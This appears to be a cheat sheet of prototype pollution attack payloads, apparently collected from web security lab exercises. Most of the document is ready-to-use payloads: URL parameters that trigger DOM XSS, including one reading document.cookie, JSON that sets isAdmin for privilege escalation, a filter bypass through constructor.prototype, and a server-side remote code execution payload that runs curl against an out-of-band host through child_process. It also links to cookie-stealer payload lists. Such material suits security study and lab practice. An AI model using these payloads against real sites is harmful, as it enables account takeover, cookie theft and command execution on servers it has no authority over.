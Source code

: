 ```
1. DOM XSS via client-side prototype pollution  
```
https://site.com/?__proto__[transport_url]=data:,alert(1)
```print
2. DOM XSS via an alternative prototype pollution vector  
```
https://site.com/?__proto__.sequence=alert(1)-
```
3. Client-side prototype pollution via flawed sanitization
```
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
vulnerable-website.com/?__pro__proto__to__.gadget=payload
```
4. Client-side prototype pollution in third-party libraries
```
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
```
5. Client-side prototype pollution via browser APIs
```
https://site.com/?__proto__[value]=data:,alert(1)
```
6. Privilege escalation via server-side prototype pollution
```
Billing and Delivery Address:
"__proto__": {
    "isAdmin":true
}
```
7. Detecting server-side prototype pollution without polluted property reflection
```
"__proto__": {
 "status":555
}
```
8. Bypassing flawed input filters for server-side prototype pollution
```
 "constructor":{
"prototype":{
"isAdmin":true
}}
```
9. Remote code execution via server-side prototype pollution
```
"__proto__":
{"execArgv": [
  "--eval=require('child_process').execSync('curl https://kmazepmj6dq3jzpk2e4ah7fzuq0ho9cy.oastify.com')"
]}
```
## MORE MORE AND MORE
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
[HackTricks](https://book.hacktricks.xyz/)
[XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
[payloads](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/payloads/CookieStealer-Payloads.md)

## To Do:
* mindmap and algorhithm of detecting triggers for vulnerabilities
